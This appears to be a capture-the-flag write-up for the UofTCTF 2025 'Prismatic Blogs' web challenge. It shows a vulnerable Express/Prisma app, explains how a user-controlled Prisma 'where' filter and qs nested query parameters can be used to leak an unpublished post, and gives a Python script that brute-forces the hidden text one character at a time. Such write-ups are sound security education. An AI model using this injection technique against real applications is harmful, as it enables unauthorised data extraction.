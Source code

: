 ```yaml
---
title: Prismatic Blogs
description: Here are API endpoints for a blog website.
categories: ["ctf", "UofTCTF 2025"]
tags: ["web"]
media_subpath: "/assets/posts/2025/uoftctf/prismatic-blogs"
---
```


We have a Node.js application that uses the Prisma ORM for SQLite:

```js
import express from "express";
import { PrismaClient } from "@prisma/client";

const app = express();
app.use(express.json())

const prisma = new PrismaClient();

const PORT = 3000;

app.get(
  "/api/posts",
  async (req, res) => {
    try {
      let query = req.query;
      query.published = true;
      console.log(query);
      let posts = await prisma.post.findMany({where: query});
      res.json({success: true, posts})
    } catch (error) {
      res.json({ success: false, error });
    }
  }
);

app.post(
    "/api/login",
    async (req, res) => {
        try {
            let {name, password} = req.body;
            let user = await prisma.user.findUnique({where:{
                    name: name
                },
                include:{
                    posts: true
                }
            });
            if (user.password === password) { 
                res.json({success: true, posts: user.posts});
            }
            else {
                res.json({success: false});
            }
        } catch (error) {
            res.json({success: false, error});
        }
    }
)

app.listen(PORT, () => {
    console.log(`Server is running on http://localhost:${PORT}`);
});
```

The flag is in a non-`published` post, but we can only retrieve `published` ones.

We notice that the `where` field in the `findMany` call is user-controlled. Prisma uses this object
to filter the data it returns. There are many subfields available in the `where` field, including stuff related
to table relations. Let's take a look at the schema:

```
datasource db {
  provider = "sqlite"
  url      = "file:./database.db"
}

generator client {
  provider = "prisma-client-js"
}

model User {
  id        Int      @id @default(autoincrement())
  createdAt DateTime @default(now())
  name      String   @unique
  password  String
  posts     Post[]
}

model Post {
  id        Int      @id @default(autoincrement())
  createdAt DateTime @default(now())
  updatedAt DateTime @updatedAt
  published Boolean  @default(false)
  title     String   
  body      String
  author    User    @relation(fields: [authorId], references: [id])
  authorId  Int
}
```

Each author has many posts. Instead of filtering by `Post` columns, we can join the `User` table and use the columns from there.

Prisma has a nice [documentation](https://www.prisma.io/docs/orm/reference/prisma-client-reference#filter-conditions-and-operators).

Since we cannot overwrite the `published` property, we need to find another route. We can think it like this: find the posts whose author
has published posts whose body starts with a string. This filter will be joined with the `published: true` filter, so we won't get
the post back in the request. But we can bruteforce the post one letter at a time with the `startsWith` filter. If we got any post 
in the response, it means that the filter passed and we found a letter. At each iteration, we include the letters we found and bruteforce
the next one, and so on.

One more thing: the route uses the `GET` verb, so we can't pass the JSON directly. However, `express` uses `body-parser`,
which uses `qs`, which has an [interesting behavior](https://www.npmjs.com/package/qs#readme). We can nest fields and create
objects using the syntax `?a[b][c]=d`, which will be converted to `{ "a": { "b": { "c": "d" } } }`.

```py
import requests
import string

url = "http://localhost:3000"
url = "http://35.239.207.1:3000"
alphabet = string.ascii_lowercase + string.digits + "!#$&,@~}-_"

found = "This is a secret blog I am still working on. The secret keyword for this blog is uoftctf{"
while True:
    for letter in alphabet:
        response = requests.get(f"{url}/api/posts", params={
            "author[is][posts][some][body][startsWith]": found + letter
        })
        if len(response.json()["posts"]) > 0:
            if letter == "}":
                exit()
            found += letter
            print(found)
            break
    else:
        print("???")
        break
```

